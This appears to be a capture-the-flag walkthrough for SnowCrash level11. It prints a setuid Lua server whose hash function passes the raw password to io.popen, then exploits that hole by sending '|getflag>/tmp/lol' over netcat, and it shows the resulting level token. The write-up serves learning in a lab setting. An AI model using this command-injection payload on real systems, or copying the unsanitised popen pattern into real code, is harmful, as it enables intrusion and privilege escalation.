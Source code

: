 # level11

- We login as user level11.
```
level11@SnowCrash:~$ ls -l
total 4
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```


- A lua script has been left to us, let's cat `level11.lua`:
```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```


- This Lua script defines a TCP server listening on 127.0.0.1 through port 5151. It prompts clients attempting to connect for a password, which is then passed to a hashing function. The hash result is compared, and the server responds accordingly.
```
level12@SnowCrash:~$ netstat -tunlp | grep 5151
tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```


- There is indeed a server listening on 127.0.0.1 through port 5151. What interests us here is the hashing function. This function executes `echo "..pass.." | sha1sum`, then puts the output of this command into the file descriptor assigned to `prog`, so:
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password:|getflag>/tmp/lol
Erf nope..

level11@SnowCrash:~$ cat /tmp/lol
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s

level11@SnowCrash:~$ su level12
Password:fa6v5ateaw21peobuub8ipe6s
level12@SnowCrash:~$
```